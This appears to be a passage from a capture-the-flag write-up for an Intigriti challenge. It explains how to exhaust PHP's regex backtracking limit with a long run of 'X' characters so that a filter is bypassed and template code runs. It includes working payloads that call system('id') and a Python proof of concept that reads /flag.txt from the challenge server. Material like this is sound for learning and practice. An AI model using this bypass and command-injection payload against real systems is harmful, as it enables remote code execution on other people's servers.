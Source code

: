 I had two options to get there:
1) Send a shit load of shit and pray.
2) Reflect on which points the regex was backtracking the most and give calculated weight to those weak points.

Since I didn't want to destroy the challenge's infrastructure, I opted for the latter.

First of all, we need to match the word boundary (`\b`) , meaning that the matching group that comes after will be captured as a whole word.  
Then we need to match the "on" and pass our Christmas gift bag of "X" characters to the quantifier explosive "\*", which will match all the "X" characters, moving the pointer forward by $n$ positions where $n$ is the number of our "X" characters.
This is the opposite of what would have happened with the "greedy" quantifier ( `*?`), which would have halved the number of iterations.  
It seems complicated, so let's go and visualize it on [regex101](https://regex101.com/).


Ok, let's craft something evil now.  
We need at least 100k iterations, so let's fill the payload with `'X'*100_000`
aaand it didn't worked.  
Why?  
Well, we're not doing 100k "recursions" in regex terms, but instead we're counting "backtracking steps", which as the [PHP documentation](https://www.php.net/manual/en/pcre.configuration.php#ini.pcre.recursion-limit) states it defaults to 1_000_000 (1M).   
To reach that, `'X'*500_001` will result in 1 million backtracking steps (500k forward and 500k backwards).  

Let's try.
```
payload = f"X on{'X'*500_001} {{system('id')}}"
```

![](./assets/payloadworks.png)

Profit!
## 2.3) PoC

```python
import requests

URL = 'https://challenge-1223.intigriti.io/challenge.php'
data={'data':f"X on{'X'*500_001} {{system('cat /flag.txt')}}"}
#print(data)
r = requests.post(URL, data=data)
print(r.text.split(' ')[-1])
```

> INTIGRITI{7h3_fl46_l457_71m3_w45_50_1r0n1c!}